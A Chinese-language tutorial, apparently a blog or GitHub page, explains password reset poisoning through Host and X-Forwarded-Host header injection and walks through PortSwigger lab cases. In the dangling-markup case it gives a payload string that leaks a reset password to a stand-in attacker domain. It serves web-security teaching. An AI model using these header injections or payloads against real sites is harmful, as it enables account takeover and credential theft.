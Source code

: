 # 密码重置中毒

密码重置中毒是一种漏洞利用技术，攻击者可以利用该技术来操纵受攻击的网站，让该网站生成一个指向攻击者控制下的域名的密码重置链接。这种行为可以被用来窃取重置任意用户密码所需要的token，并最终破坏受害者的账号。

![](https://github.com/DuLinRain/pictures/blob/master/password_reset/password_reset_1.png?raw=true)

### 密码重置是啥？
实际上，几乎所有需要用户登录的网站也会实现一个允许用户重置其密码的功能。有很多中方式可以实现这样的功能，不同的实现方式在实用性和安全性上也不同。一种比较常见的方式是下面这样的：

1. 用户输入他们的用户名或者邮箱，点击“重置密码”按钮完成提交。
2. 网站服务器收到请求后检查这个用户是否实际存在，如果存在，则生成一个临时的、唯一的、极其复杂的`token`，这个`token`是与该用户的账户互相绑定的。
3. 网站服务器往用户的邮箱中发送一个用于重置密码的链接。这个链接的URL的查询参数上会带有前面的`token`，如`https://normal-website.com/reset?token=0a1b2c3d4e5f6g7h8i9j`。
4. 当用户访问这个链接的时候，网站服务器检查这个`token`是否有效，如果有效，则对对应的账户密码进行重置。这些都顺利完成后，通常用户会被导向一个输入新密码的地方。最终这个`token`被销毁。

这种方式足够简单，并且与其它方式比起来也相对安全。然而，这个安全依赖于这样一个机制：**只有账号的拥有这有权限访问到它的邮箱，也即获取到这个token**。而**密码重置中毒**就是一种窃取用户的这个token并利用其修改用户账户密码的技术。

### 如何实施密码重置中毒攻击？
密码重置并不一定存在的漏洞，但是如果整个流程实施的不是很严谨，就可能存在被攻击的可能。

如果发送给用户重置密码的URL连接是基于用户输入动态生成的，如Host请求头，那么可能可以按如下方式实现密码重置攻击：

1. 攻击者获取到目标用户的用户名和注册邮箱(这些可能是重置密码必要的参数)，让后以攻击者的名义提交一个重置密码的请求。当表单提交的时候，攻击者拦截这个HTTP请求并且修改对应的Host请求头，将其值改为由攻击者控制的域名。例如`evil-user.net`。
2. 受害者从该网站受到一封真实的重置密码的邮件。如前所述，邮件里可能包含一个重置密码的链接，链接上带有一个与用户账户相关联的`token`。但是，这里的URL里包含的域名是攻击者提交的那个Host头指向的域名，如：`https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`。
3. 如果受害者点击了这个链接（或者通过其它方式发起请求，比如被反病毒扫描扫了），那么这个`token`就会发送到攻击者控制的服务器。
4. 现在攻击者收到了这个`token`，可以通过它拼接正确的链接访问，这样就会进入受害者真实的密码重置页面，可以将密码重置成自己知道的，然后以重置密码登录。


在真实的攻击场景中，攻击者可能还会像模像样的提示弹框，以便在用户点击这个链接时给出一个友好提示。

即便你无法控制重置密码的链接，你可能也可以通过Host头注入某些HTML到邮件中。值得注意的是，邮件客户端通常不会执行JavaScript，但是类似于[悬挂标记攻击](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)这样的技术在邮件客户端可以生效。

> 注意：现如今，应用的重置密码功能可能做得越来越安全了，重置密码可能还要输入手机验证码，旧密码等信息，导致有时候即使拿到了token也没法重置密码。


### 实战演示
以PortSwigger上测试平台进行演示。

假设你的**账户:密码** 是 **wiener:peter**，目标是通过密码重置漏洞控制用户**carlos**的账号并登录。

#### CASE1:  使用Host头注入攻击

步骤：

1. 点击重置密码，先重置自己的账户，观察重置流程、接口和重置链接。
2. 尝试修改Host请求头，再次发起对自己账户的重置，观察是否可以修改Host头。
3. 重放前面的重置接口，将用户名改为carlos，Host改为自己控制的服务器，重放重置接口。
4. 观察自己控制的服务器对应接口的访问记录，获取对应的carlos的重置token。
5. 以carlos的token替换之前重置自己账号时收到的链接，访问，完成carlos账号的密码重置。
6. 以重置后的密码登录carlos账户。

![](https://github.com/DuLinRain/pictures/blob/master/password_reset/password_reset_2.png?raw=true)
#### CASE2:  使用X-Forwarded-Host头注入攻击
步骤同上，只是修改的是`X-Forwarded-Host`头。

> 关于X-Forwarded-Host： https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/X-Forwarded-Host


### CASE3:  使用悬挂标签注入攻击
这次的CASE会比较复杂，重置邮件并不会有`token`，而是会自动生成一个随机的密码发给你的邮箱，密码是一个纯文本，没有附加在链接上。邮箱中有个登录链接，采用的`a`标签`link`的，类似如下：

![](https://github.com/DuLinRain/pictures/blob/master/password_reset/password_reset_3.png?raw=true)

邮件对应的原始内容类似如下：

![](https://github.com/DuLinRain/pictures/blob/master/password_reset/password_reset_4.png?raw=true)

这里我们的目标需要直接偷取到密码文本。如何做到呢？这里需要做到向邮件中注入HTML标签，来通过某种方法触发页面将密码部分作为参数发送到我们控制的服务器。

可以使用悬挂标签 + Host头注入的方式实现。步骤：

- 将Host改成Host:Port的形式注入，其中Post改成你所控制的域名，并且通过悬挂标签做一定的调整：

		www.toutiao.com:'<a href="//your-controled-domain.xxx.net/exploit? // 这里/exploit接口是你的服务提供的，也可以直接用/
		
- 观察你的服务的日志，可能会发现这样的请求：

![](https://github.com/DuLinRain/pictures/blob/master/password_reset/password_reset_5.png?raw=true)

- 通过拿到的密码进行登录。

### 参考
- https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning